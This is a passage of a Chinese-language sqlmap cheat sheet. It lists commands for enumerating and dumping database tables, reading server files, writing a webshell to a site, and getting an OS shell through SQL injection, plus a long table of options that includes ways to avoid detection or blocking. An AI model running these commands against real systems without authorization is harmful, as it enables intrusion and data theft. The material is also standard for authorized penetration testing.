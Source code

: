 **查看详细内容**

```
sqlmap -u "url" --tables -D "database" //database这个数据库的表数据表
sqlmap -u "url" --columns -T "tables" -D "database" //查看tables这个数据表的字段
sqlmap -u "url" --dump "a,b,c" -C "columns" -T "tables" -D "database" //下载内容，后面的-CTDabc都是对下载的数据库表段的约束如果不加就是下载所有
```

#### 3.3 执行特殊操作

**文件查看**

```
sqlmap -u "url" –file-read= //这个读取的文件会存在本地的结果目录，请认真看提示
```

**文件写入**

```
sqlmap -u "url" --file-write=本地文件路径 --file-dest=网站的绝对路径 //上传webshell用，需要dba权限
```

**命令执行**

```
sqlmap -u "url" --os-cmd "cmd"  //执行cmd代表的命令，如cd C:/

sqlmap -u "url" --os-shell  //进入数据库自带的shell
```

## 4. 命令总览

使用`sqlmap -hh`可以查看详细的命令说明：

```
-r 1.txt            对于用post方法提交的，参数不在URL里面的网页，可以先截获数据，保存成文件再用这个参数执行
-l log.txt          可以将代理的日志作为目标去检测
-m 1.txt            对于多个URL，可以一排一个写入文件后加载
--force-ssl         对于使用SSL的URL要在后面加上这个参数
--data              对于使用post方法，可以将参数写在data后面
--param-del=""          
--cookie=""  level 2        对于需要验证才能访问的URL，可以加上cookie值验证，如果要检测cookie是否有注入漏洞，level要高于1
--random-agent          使用随机的user-agent
--user-agent=""  level 3    指定user-agent，如要检测它是否有漏洞level要高于2
--header="\n"           指定头信息，如User-Agent:dsacs，大小写敏感，多个用\n分隔
--method=GET POST       设置提交方式，默认一个一个的尝试
--auth-type             如果是基于http的验证，如Basic NTLM Digest，可直接加类型再配合下一个参数使用
--auth-cred "user:pass"     填写账号和密码
 --proxy="http:127.0.0.1:8087"  使用代理
--proxy-cred="name:pass"    如果代理要密码的话
--ignore-proxy          强制不使用代理
--delay             请求延迟间隔，单位秒，默认无延迟
--retries           链接失败重试次数3
--timeout           链接超时时间30
--randomize="param"     使用和源参数类型长度一致的参数
sqlmap -l l.log --scope="(www)?\.target\.(com|net|org)"     这是一个正则表达式，是对于log文件里面URL过多时，进行筛选，这里是只要com/net/org结尾的域名
sqlmap -l 2.log --scope="(19)?\.168\.20\.(1|11|111)"        同上，筛选19*.168.20.1/11/111这几个网段的IP
--safe-url="url"        设置正确的URL，因为如果一直尝试错误的URL可能会被服务器拉黑，过几次登下正确的防止这个发生
--safe-freq 10          尝试的与正确的URL的交换频率
--skip-urlencode        有的URL在get方式提交时没编码，就要用这个
--eval=""php代码      这个后面可以跟PHP代码，能够执行
--keep-alive            保持连接会降低资源使用，但是不能与代理兼容
--predict-output        能够在找到一个信息后缩小检测的范围，不能与--threads兼容
--null-connection       只看返回文件的大小，不要他的内容与--text-only不兼容
--threads           最大并发数，默认1，最大不要超过10，盲注时一次返回一个字符【7次请求】
-o              使用除了--threads的全部的优化参数
-p              指定参数，使level失效
```